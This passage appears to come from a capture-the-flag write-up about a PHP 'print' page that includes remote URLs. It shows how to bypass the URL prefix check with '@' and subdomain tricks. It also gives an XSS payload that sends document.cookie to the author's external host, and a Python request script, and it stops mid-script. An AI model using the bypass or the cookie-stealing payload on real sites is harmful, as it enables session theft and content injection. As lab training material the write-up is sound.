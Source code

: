 Only URLs are shown which match some hardcoded host. So the bot never got to
see our submitted URLs. Let's see how we can bypass this.

### Include from arbitrary URL

There is this rather strange handling of the `page=print` case:

```
    case 'print':
        $url   = base64_decode($_REQUEST['url']);
        $title = '';
        if(begins_with($url, $config['url'])) {
            $content = getContentFromUrl($url);
        }

        if(isset($_REQUEST['load_template']) && ($_REQUEST['load_template'] == '1' || $_REQUEST['load_template'] == true)) {
            $content = only_body($content);
        }
    break;
```

So this will include anything that comes from a provided URL. Unfortunately
they check that the provided URL begins with a certain string. By playing
around a little bit, we can deduce that the provided URL must begin with
`http://10.13.37.13`.

Interestingly here we can see that the URL doesn't end in a `/` or someting
like that so we can bypass the check using two different methods:

```
http://10.13.37.13@example.com/
http://10.13.37.13.example.com/
```

Both start with the correct string, but point to totally different domains.
That way we can get the server to include arbitrary HTML content from a remote
location. This starts to be interesting :)

### First XSS tests

So we uploaded a quick test file to a webserver of our own:

```html
<script>
document.write("<img src=\"http://f0rki.at/xss/" + document.cookie + "\" />");
</script>
```

Using this simple script we checked whether the content was actually included:

```python
import requests
import sys
from base64 import b64encode

BASE_URL = "http://10.13.37.13/?page=print&url="

def get_it(url):
    s = requests.session()
    url = b64encode(url)
    res = s.get(BASE_URL + url)
    return res

if __name__ == "__main__":
    assert len(sys.argv) == 2, "need argv[1]"
    x = get_it(sys.argv[1])
    print x.request.url
    print
```